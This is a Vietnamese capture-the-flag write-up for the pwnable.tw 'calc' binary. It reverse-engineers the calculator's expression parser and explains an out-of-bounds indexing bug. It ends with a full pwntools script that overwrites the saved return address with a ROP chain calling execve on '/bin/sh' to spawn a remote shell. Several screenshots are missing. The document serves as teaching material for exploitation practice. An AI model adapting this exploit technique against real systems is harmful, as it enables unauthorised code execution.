

**1. Tìm lỗi**

Chạy thử file ta được


Là 1 chương trình tính toán nhưng khi nhập một số phép toán lớn và phép toán đặc biệt như -2-2 thì chương trình báo lỗi.

Dùng lệnh 'file' để kiểm tra file

```
calc: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped
```

Là file ELF 32 bit -> Mở bằng IDA ta có hàm main như sau:


Ta thấy chương trình set thời gian 60s rồi gọi hàm calc ở sau đó. Ta có hàm calc như sau:


- Đầu tiên đọc giá trị lưu trữ tại địa chỉ bắt đầu từ offset 0x14 trong thanh ghi GS
- Hàm bzero tiếp theo sẽ thiết lập giá trị 0 cho 1024 ký tự trong biến s
- Dùng hàm get_expr để kiểm tra biến s nếu không thỏa mãn thì dừng lại
- init_pool với biến v1
- Dùng hàm parse_expr với tham số s và v1. Nếu đúng thì in ra giá trị của mảng v1 tại vị trí v1[0].
- Hàm trả về giá trị của phép XOR giữa giá trị của thanh ghi đọc từ bộ nhớ đệm và giá trị v3.

Hàm get_expr:


- Hàm get_expr với 2 tham số a1 là biến chứa biểu thức cần tính toán và a2 là độ dài biểu thức
- Khai báo biến v5 = 0
- Sử dụng vòng lặp while để đọc từng ký tự đến khi v5 bằng a2 hoặc ký tự xuống dòng hoặc lỗi
- Trong vòng lặp while kiểm tra từng ký tự nếu là '+', '-', '*', '/', '%' hoặc các số từ 0->9 thì được lưu vào biểu thức
- Kết thúc vòng lặp while thì thêm ký tự null vào cuối chuỗi a1
- Hàm trả về độ dài chuỗi a1 sau khi bóc tách các phần tử khác yêu cầu

Hàm init_pool:


- Có tham số là a1 trỏ đến mảng có 100 phần tử
- Gán giá 0 cho từng phần tử trong mảng
- Cuối cùng trả về vị trí đầu tiên của mảng

Hàm parse_expr:

```
int __cdecl parse_expr(int a1, _DWORD *a2)
{
  int v3; // eax
  int v4; // [esp+20h] [ebp-88h]
  int i; // [esp+24h] [ebp-84h]
  int v6; // [esp+28h] [ebp-80h]
  int v7; // [esp+2Ch] [ebp-7Ch]
  char *s1; // [esp+30h] [ebp-78h]
  int v9; // [esp+34h] [ebp-74h]
  char s[100]; // [esp+38h] [ebp-70h] BYREF
  unsigned int v11; // [esp+9Ch] [ebp-Ch]

  v11 = __readgsdword(0x14u);
  v4 = a1;
  v6 = 0;
  bzero(s, 0x64u);
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )
    {
      v7 = i + a1 - v4;
      s1 = (char *)malloc(v7 + 1);
      memcpy(s1, v4, v7);
      s1[v7] = 0;
      if ( !strcmp(s1, "0") )
      {
        puts("prevent division by zero");
        fflush(stdout);
        return 0;
      }
      v9 = atoi(s1);
      if ( v9 > 0 )
      {
        v3 = (*a2)++;
        a2[v3 + 1] = v9;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
      {
        puts("expression error!");
        fflush(stdout);
        return 0;
      }
      v4 = i + 1 + a1;
      if ( s[v6] )
      {
        switch ( *(_BYTE *)(i + a1) )
        {
          case '%':
          case '*':
          case '/':
            if ( s[v6] != 43 && s[v6] != 45 )
              goto LABEL_14;
            s[++v6] = *(_BYTE *)(i + a1);
            break;
          case '+':
          case '-':
LABEL_14:
            eval(a2, s[v6]);
            s[v6] = *(_BYTE *)(i + a1);
            break;
          default:
            eval(a2, s[v6--]);
            break;
        }
      }
      else
      {
        s[v6] = *(_BYTE *)(i + a1);
      }
      if ( !*(_BYTE *)(i + a1) )
        break;
    }
  }
  while ( v6 >= 0 )
    eval(a2, s[v6--]);
  return 1;
}
```

- Hàm trên có tham số là con trỏ a1 trỏ đến biểu thức cần tính, a2 là con trỏ trỏ tới mảng chứa toán hạng hay phép toán
- Tạo các biến cần thiết và sử dụng hàm bzero để các phần tử trong mảng s bằng 0
- Dùng vòng lặp để duyệt từng ký tự
- Nếu ký tự hiện tại không phải là một chữ số (0-9), thì chuỗi con từ vị trí v4 đến vị trí hiện tại là một toán hạng. Hàm malloc được sử dụng để cấp phát bộ nhớ cho chuỗi này, sau đó chuỗi được sao chép vào chuỗi mới và kết thúc bằng ký tự null. Nếu toán hạng là 0, hàm trả về 0 để tránh chia cho 0. Nếu toán hạng là một số nguyên dương, nó được lưu trữ trong mảng a2.
- Nếu ký tự hiện tại không phải là một chữ số và ký tự tiếp theo cũng không phải là một chữ số, thì đó là một lỗi biểu thức và hàm trả về 0.
- Cập nhật vị trí bắt đầu của toán hạng tiếp theo trong chuỗi.
- Nếu mảng s không rỗng, kiểm tra phép toán hiện tại và phép toán ở đỉnh của mảng s. Nếu phép toán hiện tại là %, *, hoặc / và phép toán ở đỉnh của mảng s không phải là + hoặc -, thì thêm phép toán hiện tại vào đỉnh của mảng s. Nếu phép toán hiện tại là + hoặc - thì tính toán phép toán ở đỉnh của mảng s và cập nhật phép toán mới vào đỉnh của mảng s. Nếu phép toán hiện tại là một số, thì tính toán phép toán ở đỉnh của mảng s và giảm đỉnh của mảng s đi 1. Nếu mảng s rỗng, thì chỉ cập nhật phép toán hiện tại vào đỉnh của mảng s.
- Tính toán các phép toán còn lại trong mảng s bằng cách sử dụng hàm eval.
- Hàm trả về 1 nếu phân tích biểu thức và tính toán thành công, ngược lại trả về 0.

Hàm eval:


- Hàm gồm tham số a1 là con trỏ trỏ tới mảng chứa các toán hạng và phép toán, a2 là phép toán cần thực hiện
- Kiểm tra phép toán được truyền vào và thực hiện phép toán tương ứng trên hai toán hạng lấy từ cuối mảng (vị trí *a1-1 và *a1) và cập nhật kết quả vào vị trí *a1-1.
- Sau khi thực hiện phép toán tương ứng thì giảm giá trị của biến con trỏ a1 đi 1 để trỏ đến vị trí cuối cùng của mảng chứa các toán hạng và phép toán.
- Hàm trả về con trỏ đến mảng chứa các toán hạng và phép toán đã được cập nhật kết quả.

Sau khi đọc hiểu sơ sơ được code thì chạy lại file và test:


Đến đây thì thấy khi nhập +3 thì kết quả lại trả về là 0.

Xem lại hàm parse_expr thì thấy lúc nhập '+10' thì chỉ có số 10 được thêm là mảng chứa số để tính thì thực hiện phần lệnh sau.


```a1[*a1 - 1] += a1[*a1];```

Lúc này, a1 = 1, number[] = [10]. Do đó phép tính trên thực chất tương đương với: a1 = a1 + number[a1-1] = 1 + 10 = 11. Sau đó có lệnh a1– nên a1 = 10. Hàm parse_expr() kết thúc, chương trình in ra giá trị tại number[a1-1] = number[9] = a1[10] = 0 vì mảng number đã được khởi tạo tất cả giá trị = 0 trước đó. Vậy nếu thay đổi con số sau dấu + có thể leak được giá trị tại 1 vị trí mong muốn.

Đặt breakpoint sau hàm parse_expr và xem stack ta có:


Ta thấy biến a1 được lưu ở 0xffffccb8 và mảng number bắt đầu từ 0xffffcce0. Vậy tận dụng điều này để saved eip hàm main.




Vậy để ghi được cần input + 368 + gadgets

Nếu number[a1-1] in ra kết quả khác với gadget ta ghi trước đó thì tức là địa chỉ đó trước đó đã có một giá trị khác , giá trị này có thể âm hoặc dương. Nếu đó là đại chỉ dương thì ta cần + thêm làm sao để nó trở thành 0x100000000(4 byte 0). Nếu nó là âm ta sẽ dùng struct trong python để biến đổi và thực hiện phép tính.

**3. Khai thác**

```
from pwn import *
import struct
#r = process('./calc')
r = remote('chall.pwnable.tw', 10100)

def getnum(num, need):
	if num<0:
		num = u32(struct.pack('<i', num))
	num = struct.unpack('<i', p32((0x100000000 - num - need)))[0]
	num = str(num)
	if '-' not in num:
		num = '+' + num
	return num

r.recvline()

eip = 0x170
rw_section = 0x80eba00
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

payload_list = [
	pop_eax, 3,
	pop_ecx_ebx, rw_section, 0,
	pop_edx, 0x200,
	int_80_ret,
	pop_eax, 0xb,
	pop_ecx_ebx, 0, rw_section,
	pop_edx, 0,
	int_80_ret
]


for i in range(len(payload_list)-1, -1, -1):
	if payload_list[i]==0:
		continue

	if payload_list[i-1]==0:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		r.sendline(payload)
		recv = int(r.recvline()[:-1])
		print(recv, payload_list[i])
		
		if recv==payload_list[i]:
			payload = f'+{eip+i}-{payload_list[i]}'.encode()
			r.sendline(payload)
			r.recvline()
			
		else:
			t = getnum(recv, payload_list[i])
			payload = f'+{eip+i}{t}'.encode()
			r.sendline(payload)
			r.recvline()
			payload = f'+{eip+i}+{payload_list[i]}'.encode()
			r.sendline(payload)
			r.recvline()
		
	else:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		r.sendline(payload)
		r.recvline()

r.sendline()
r.send(b'/bin/sh\x00')

r.interactive()
```

**4. Lấy flag**


